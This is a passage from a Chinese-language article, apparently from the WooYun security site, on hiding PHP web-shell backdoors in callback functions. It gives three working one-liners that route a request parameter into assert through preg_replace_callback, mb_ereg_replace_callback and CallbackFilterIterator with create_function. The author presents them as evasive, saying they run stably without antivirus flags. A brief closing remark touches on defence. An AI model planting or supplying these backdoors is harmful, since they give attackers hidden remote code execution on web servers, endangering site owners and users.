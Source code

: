 '''preg_replace_callback'''的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个指定为assert，就会执行不了，因为assert接受的参数是字符串。

所以我们需要去“构造”一个满足条件的回调函数。

怎么构造？使用create_function：

    preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

“创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

这也是一个不杀不报稳定执行的回调后门，但因为有create_function这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。 类似的，这个也同样：


    mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

再来一个利用CallbackFilterIterator方法的回调后门：

    $iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
    foreach ($iterator as $item) {
    echo $item;}

这里也是借用了create_function来创建回调函数。但有些同学就问了，这里创建的回调函数只有一个参数呀？实际上这里如果传入assert，是会报错的，具体原因自己分析。

0x09 后记

这一篇文章，就像一枚核武器，爆出了太多无特征的一句话后门。我知道相关厂商在看了文章以后，会有一些小动作。不过我既然敢写出来，那么我就敢保证这些方法是多么难以防御。

实际上，回调后门是灵活且无穷无尽的后门，只要php还在发展，那么就有很多很多拥有回调函数的后门被创造。想要防御这样的后门，光光去指哪防哪肯定是不够的。

简单想一下，只有我们去控制住assert、preg_replace这类函数，才有可能防住这种漏洞。

[link-zh-cn](http://drops.wooyun.org/tips/7279)
[link-en](http://translate.wooyun.io/2015/07/28/The-Secrets-of-Creating-Tips-PHP-Reverse-Backdoors.html)
